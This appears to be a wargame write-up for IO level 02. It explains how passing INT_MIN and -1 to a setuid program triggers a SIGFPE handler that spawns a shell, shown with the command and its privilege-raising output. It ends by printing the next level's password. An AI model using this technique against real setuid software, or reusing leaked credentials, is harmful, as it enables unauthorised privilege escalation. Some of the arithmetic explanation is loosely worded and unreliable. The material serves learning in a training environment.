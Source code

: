 # Level 02

In this level, is provided to us a binary at ***/levels/level02***, let's run
```
level2@io:/levels$ ./level02
source code is available in level02.c
```

If you take a look at the source code you have this:


```c
//a little fun brought to you by bla

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void catcher(int a)
{
        setresuid(geteuid(),geteuid(),geteuid());
	    printf("WIN!\n");
        system("/bin/sh");
        exit(0);
}

int main(int argc, char **argv)
{
        puts("source code is available in level02.c\n");

        if (argc != 3 || !atoi(argv[2]))
                return 1;
        signal(SIGFPE, catcher);
        return abs(atoi(argv[1])) / atoi(argv[2]);
}
```

So, the program expect us to send 2 arguments (because the first one is the path of the program itself) and the second number must be not equal to zero (***!atoi(argv[2])***), then he get's the absolute value of the first argument and divide be a integer in argument two.


But before that, note that ***signal*** function, this function waits from some system [signal]() in this case a SIGFPE signal and hook into a custom function to handle that, we see that the function catcher has call to ***/bin/sh***. So we need to trigger a SIGFPE signal to make the program call the catcher function.


SIGFPE signal is trigged when there is a exception in an arithmetic operation, there is three possible cause of this:

- Division by zero
- Integer overflow
- Module by zero

With this information we see that the second condition avoids 0 in the second parameters, stoping us to send zero directly.

If you run ***file*** in this binary you will find that is a 32bits ELF file and ***uname*** will reveal that we are running in a i386

File:
```
level2@io:/levels$ file level02
level02: setuid ELF 32-bit...
```
Uname:
```
level2@io:/levels$ uname -a
... i686 GNU/Linux
```

### Signed integers in x86

Before we dig into the exploit itself, we need to understand how integers are stored in a 32bit memory layout, take a look at this simple software in C that displays integers in hexa and decimal:

```c
#include <stdio.h>
#include <stdint.h>
#include <limits.h>

int main() 
{
	int max = INT_MAX;
	int min = INT_MIN;
	
	
	int random = 323232;
	int random2 = -1;

	printf("0x%x - %d\n", max, max);
	printf("0x%x - %d\n", min, min);
	printf("0x%x - %d\n", random, random);
	printf("0x%x - %d\n", random2, random2);
	printf("0x%x - %d\n", -max, -max);
        
	return 0;
```

Run this and take a look at the output itself:
```
 >>> ./integers                                                                    
0x7fffffff - 2147483647
0x80000000 - -2147483648
0x4eea0 - 323232
0xffffffff - -1
0x80000001 - -2147483647
```

We know that a 32 bit system hold a address of 4 bytes, so the maximum value that we can hold in a ***unsigned*** integer is 4294967296 (2**32), but a signed value need a way to hold negative numbers.


So a ***signed*** integer number need to divide the maximum bytes in 32bits in two parts, a positive one and a negative one, the max signed integer is the half of the 2**arch, in our case 2147483647(0x7fffffff) and the negative numbers is everything above this (0x80000000).

Now take a look in this simple calculation:

```c
#include <stdio.h>
#include <stdint.h>

main() {
	int32_t x = 1;
	int32_t y = 2;
	int32_t res = x - y;
	
	printf("%d = 0x%08x\n", x, x);
	printf("%d = 0x%08x\n", y, y);
	printf("%d = %d - %d\n", res, x, y);
	printf("0x%08x = 0x%08x - 0x%08x\n", res, x, y);
}
-----------------------------------------------------------------------------
Level02 >>> ./operation
1 = 0x00000001
2 = 0x00000002
-1 = 1 - 2
0xffffffff = 0x00000001 - 0x00000002
```

When the CPU execute this sub, it will give us a Carry flag (CF) indicating that a number is bigger than another and the value will be negative, so we get 0xFFFFFFFF which indicate -1, it's like going back in the clock and when we reach the INT_MIN we start from the INT_MAX.



Another thing, some CPUS use the following formula to compute negative numbers into postive numbers:
```
x = (~x + 1)
0xF == (~-0xF + 1)  # <- True
```
Breaking down into INT_MIN

```
0x80000000
x = (~-0x80000000 + 1)
x = (-2147483647 + 1)
x = 2147483648
```


So to make a integer overflow we can pass as the second argument ***-1*** (0xffffffff) and the first argument will be the INT_MIN value, when abs try to make abs(INT_MIN), it will run the formula above and the the value returned will be 2147483648/1, but ***2147483648*** is too large for a 32bit processor.

```
level2@io:/levels$ ./level02 -2147483648 -1
source code is available in level02.c

WIN!
sh-4.3$ whoami
level3
sh-4.3$ id
uid=1003(level3) gid=1002(level2) groups=1002(level2),1029(nosu)
sh-4.3$ 
```


I was not able to solve this alone, i look for a lot of resources and i actually found this way to make a integer overflow, but all the research made for understand help me a lot, after you finish this there is a quick explaination too.


There is also a level02_alt.

Level 3 -> OlhCmdZKbuzqngfz